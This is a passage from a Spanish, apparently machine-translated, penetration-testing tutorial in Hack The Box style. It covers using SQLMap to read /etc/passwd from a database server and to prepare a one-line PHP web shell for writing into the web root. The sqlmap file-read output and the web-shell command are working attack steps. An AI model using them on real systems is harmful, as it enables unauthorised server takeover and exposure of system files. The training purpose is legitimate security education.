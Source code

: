 ```
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/

```

Como podemos ver, dijo SQLMAP`files saved`a un archivo local. Podemos`cat`el archivo local para ver su contenido:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

```

Hemos recuperado con éxito el archivo remoto.

---

# **Escribir archivos locales**

Cuando se trata de escribir archivos en el servidor de alojamiento, se vuelve mucho más restringido en los DMBSE modernos, ya que podemos utilizar esto para escribir un shell web en el servidor remoto y, por lo tanto, obtener la ejecución del código y tomar el servidor.

Esta es la razón por la cual los DBMS modernos desactivan el archivo de archivo de forma predeterminada y necesitan ciertos privilegios para que DBA pueda escribir archivos. Por ejemplo, en mysql, el`--secure-file-priv`La configuración debe desactivarse manualmente para permitir la escritura de datos en archivos locales utilizando el`INTO OUTFILE`Consulta SQL, además de cualquier acceso local necesario en el servidor host, como el privilegio de escribir en el directorio que necesitamos.

Aún así, muchas aplicaciones web requieren la capacidad de los DBMS de escribir datos en archivos, por lo que vale la pena probar si podemos escribir archivos en el servidor remoto. Para hacer eso con SQLMAP, podemos usar el`--file-write`y`--file-dest`opciones. Primero, preparemos un shell web básico de PHP y escríbelo en un`shell.php`archivo:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Ahora, intentemos escribir este archivo en el servidor remoto, en el`/var/www/html/`Directorio, el Servidor WebRoot predeterminado para Apache. Si no conocíamos el Servidor Webroot, veremos cómo SQLMAP puede encontrarlo automáticamente.

